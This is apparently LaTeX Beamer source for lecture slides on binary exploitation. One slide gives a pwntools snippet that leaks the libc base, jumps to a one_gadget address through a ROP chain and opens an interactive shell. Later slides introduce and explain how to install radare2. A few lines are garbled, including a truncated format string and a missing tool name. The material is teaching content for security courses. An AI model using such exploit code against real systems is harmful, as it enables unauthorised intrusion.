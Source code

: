\documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]
	\frametitle{Getting a Shell}
	\begin{itemize}
		\pause
		\item After knowing libc version, download that libc and get libc base
		\item Run  over it to find suitable one
		\item Then simply jump to one\_gadget address directly:
	\end{itemize}
\begin{codebox}{python}
exit_offset = 0x0473c0 # location of exit in libc
libc_base = leak_got_symbol("exit") - exit_offset
log.info("Leaked libc base: 0x%
one_gadget_addr = libc_base + 0x106ef8

final_rop = ROP(exe)
final_rop.call(one_gadget_addr)
io = start()
run_rop(io, final_rop.chain())
io.interactive()\end{codebox}
\end{frame}

\section{Radare2 introduction}

\begin{frame}[fragile]
    \frametitle{RAw DAta REcovery}
    \begin{itemize}
		\item Originally developed as a hex editor, features were added until it grew into an interactive disassembler, debugger, forensics tool, etc
		\item It's the perfect tool for low-level byte editing / viewing / diffing.
		\item It is \emph{not} a substitute for Ghidra or IDA or gdb; instead, you should use it \emph{along} those tools. More details later.
    \end{itemize}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Installation}
	\begin{itemize}
		\item radare2 is actively developed and very frequently updated
		\item distros have \textbf{very} old versions in their packages (looking at you, ubuntu)
		\item there is no "stable" version; the recommended version is the git one!
		\item do \textbf{*not*} install from your distro's repositories
	\end{itemize}
\end{frame}
\end{document}
